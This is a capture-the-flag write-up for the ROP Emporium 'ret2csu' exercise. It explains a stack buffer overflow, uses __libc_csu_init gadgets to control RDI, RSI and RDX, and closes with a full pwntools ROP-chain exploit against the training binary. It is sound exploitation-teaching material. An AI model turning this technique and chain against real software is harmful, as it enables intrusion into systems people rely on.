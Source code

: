 # ret2csu

Link : [ret2csu](https://ropemporium.com/challenge/ret2csu.html)

Binary : [ret2csu](data/ret2csu.zip)


Here is the source code of the pwnme function in libret2csu.so

![pwnme](data/pwnme.png)

At ```read(0,local_28,0x200);``` there is a buffer overflow vulnerability.

ret2win function in libret2csu.so

![retwin](data/retwin.png)

In the function ret2win(), it is necessary that the first parameter is equal to 0xdeadbeefdeadbeef, the second is equal to 0xcafebabecafebabe and the third is equal to 0xd00df00dd00df00d .

The first parameter is RDI, the second RSI and the third RDX.

![ret2win_param](data/ret2win_param.png)

We need to modify these registers with the values 0xdeadbeefdeadbeef,0xcafebabecafebabe and 0xd00df00dd00df00d, and call the ret2win() function to get the flag.

To modify these registers, we need gadgets that allow us to move values in these registers, gadgets with the POP or MOV instruction for example.

But there is no gadget to modify the RDX register. To solve this problem, we will use ret_2_csu.

The __libc_csu_init function is responsible for initializing the libc file. Essentially we will be pulling ROP gadgets from this function.

![__libc_csu_init](data/__libc_csu_init.png)

We have:
```ASM
                             LAB_00400680                                    XREF[1]:     00400694 (j)   
        00400680 4c  89  fa       MOV        RDX ,R15
        00400683 4c  89  f6       MOV        RSI ,R14
        00400686 44  89  ef       MOV        EDI ,R13D
```

We will put our values in R15 and R14 and finally use these gadgets above.

We have here EDI a register of 4 bytes, while we need a register of 8 bytes for 0xdeadbeefdeadbeef 

We will use the gadget ```pop rdi; ret``` for that.

![pop rdi](data/poprdi.png)

There are these gadgets, we can use them to put our values in R15 and R14:

```ASM
        0040069a 5b              POP        RBX
        0040069b 5d              POP        RBP
        0040069c 41  5c           POP        R12
        0040069e 41  5d           POP        R13
        004006a0 41  5e           POP        R14
        004006a2 41  5f           POP        R15
        004006a4 c3              RET
```

Nevertheless we have a problem, we don't have a RET after ```MOV EDI, R13D``` which can make our ROP CHAIN fail.

To solve this problem, we will let our ROP CHAIN run until ```004006a4 c3 RET```.

Even with that, we have some challenges:

```ASM
        00400689 41  ff  14  dc    CALL       qword ptr [R12  + RBX *0x8 ]=>->frame_dummy        undefined frame_dummy()
                                                                                             = 4005D0h
                                                                                             = 400600h
                                                                                             undefined __do_global_dtors_aux()
        0040068d 48  83  c3  01    ADD        RBX ,0x1
        00400691 48  39  dd       CMP        RBP ,RBX
        00400694 75  ea           JNZ        LAB_00400680

```

There is a call to the address to which ```R12 + RBX *0x8``` points,
If we set RBX to 0 and put in R12 the address of a memory location containing the address of a function that will not clash, it will be ok.

I'll use the _init function.

Let's find the location containing this address, or the pointer to this address.

![_init](data/_init.png)

The pointer of the ```_init``` function is ```0x600e38```.

After this call, we also have ```CMP RBP ,RBX```

Here we just have to set RBP to 0x1 and RBX to 0x0 since there is an increment of RBX, ```ADD RBX ,0x1```

After that, we can call our ret2win function.

Exploit:

```python
from pwn import *

sh = process("./ret2csu")

print(sh.recv().decode())

payload = B"A"*(32+8)
payload += p64(0x40069a) # POP RBX ; POP RBP ; POP R12 ; POP R13 ; POP R14 ; POP R15 ; RET
payload += p64(0x0)
payload += p64(0x1)
payload += p64(0x600e38)
payload += p64(0x0)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)

payload += p64(0x400680) # first gadget with MOV
payload += p64(0x0) #  ADD RSP ,0x8
payload += p64(0x0) # POP RBX ;
payload += p64(0x0) # POP RBP ;
payload += p64(0x0) # POP R12 ;
payload += p64(0x0) # POP R13 ;
payload += p64(0x0) # POP R14 ;
payload += p64(0x0) # POP R15 ;

payload += p64(0x04006a3) # pop rdi ; ret
payload += p64(0xdeadbeefdeadbeef)

payload += p64(0x400510) # ret2win

sh.sendline(payload)
sh.interactive()
```

![flag](data/flag.png)
